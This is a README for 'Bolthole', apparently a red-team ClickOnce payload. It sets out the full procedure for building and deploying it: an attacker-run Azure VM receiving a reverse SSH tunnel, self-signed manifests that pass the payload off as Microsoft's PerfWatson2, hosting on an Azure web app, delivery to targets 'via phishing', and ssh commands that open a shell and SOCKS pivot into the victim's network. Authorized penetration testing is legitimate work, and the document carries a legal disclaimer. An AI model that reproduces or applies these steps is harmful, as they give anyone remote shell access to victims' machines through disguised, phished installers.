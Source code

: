 # Bolthole

A proof-of-concept ClickOnce payload for Red Teams to establish initial access in authorized penetration tests.

## Overview

Bolthole provides operators with:
- Reverse SSH tunnel into the target environment
- CMD shell access as the executing user (no password required)
- SOCKS proxy functionality for pivoting

## Setup Instructions

### 1. Azure VM Configuration

1. Create an Azure VM (Ubuntu recommended)
2. Configure the sshd_config file:
   ```bash
   sudo nano /etc/ssh/sshd_config
   ```
   
   Add/modify these lines:
   ```
   AllowTcpForwarding yes
   GatewayPorts yes
   PermitRootLogin no
   PasswordAuthentication no
   PubkeyAuthentication yes
   ```

3. Restart SSH service:
   ```bash
   sudo systemctl restart sshd
   ```
4. Create a user with nologin: sudo useradd -m -s /usr/sbin/nologin clientnameuser
5. Create an SSH keypair for the target to connect back: ssh-keygen -t rsa -b 4096 -f clientnameuser_key -N ""
6. Add pub key to authorized_keys: nano /home/clientnameuser/.ssh/authorized_keys
7. Change ownership: sudo chown -R clientnameuser:clientnameuser /home/clientnameuser/
8. Copy the contents of clientnameuser_key private key to WebDeploy\Install\BoltFiles\clientnameuser_key
9. Modify the Azure VM firewall in the networking settings of the VM to allow the ports you want inbound SSH for.

### 2. Build and Sign the ClickOnce Payload

1. Update connection settings in the project to use your Azure VM's FQDN
2. Change any ports you desire
3. Modify the authorized_keys file to include your pub key 'ssh-keygen -t ecdsa -N ""'
4. Copy PerfWatson2.exe "c:\program files\Microsoft Visual Studio\2022\Community\Common7\IDE\PerfWatson2.exe" to the "WebDeploy\Install" folder.
5. Open Tools -> Command Line -> Developer PowerShell
6. From the Bolthole directory, make the pvk: makecert.exe -sv ClickOnce.pvk -n "cn=ClickOnce" ClickOnce.cer -b 01/01/2025 -e 01/01/2026 -r
7. Convert to pfx: pvk2pfx.exe -pvk ClickOnce.pvk -spc ClickOnce.cer -pfx ClickOnce.pfx
8. Create Installer manifest from the WebDeploy\Install directory: mage.exe -New Application -Processor amd64 -ToFile .\Installer.exe.manifest -Name PerfWatson2 -Version 17.0.33711.286 -TrustLevel FullTrust -FromDirectory .
9. Sign the manifest: mage.exe -Sign .\Installer.exe.manifest -CertFile ..\..\ClickOnce.pfx
10. Create the application: mage.exe -New Deployment -Processor amd64 -Install false -Publisher "Digital Signatures" -AppManifest Installer.exe.manifest -ToFile Installer.application -ProviderUrl https://<insertyourapplication>.azurewebsites.net/Install/Installer.application
11. Sign the application: mage.exe -Sign .\Installer.application -CertFile ..\..\ClickOnce.pfx

### 3. Deployment

1. Host the ClickOnce package on a web server
2. Sign in using Azure CLI: az login --use-device-code
3. Fron the WebDeploy directory: az webapp up --location eastus2 --resource-group <INSERT> --name <INSERT> --html --sku F1
2. Provide the link to the target (via phishing or other authorized methods)
3. When executed, it will establish the reverse SSH tunnel

### 4. Usage

1. Connect to your Azure VM
2. Access the target machine through the established tunnel (default port 31332):
   ```bash
   ssh -p [TUNNEL_PORT] [USERNAME]@localhost
   ```
3. For SOCKS proxy:
   ```bash
   ssh -D 1080 -p [TUNNEL_PORT] [USERNAME]@localhost
   ```

## Legal Disclaimer

This tool is provided for authorized Red Team operations only. Usage against systems without explicit permission is illegal.
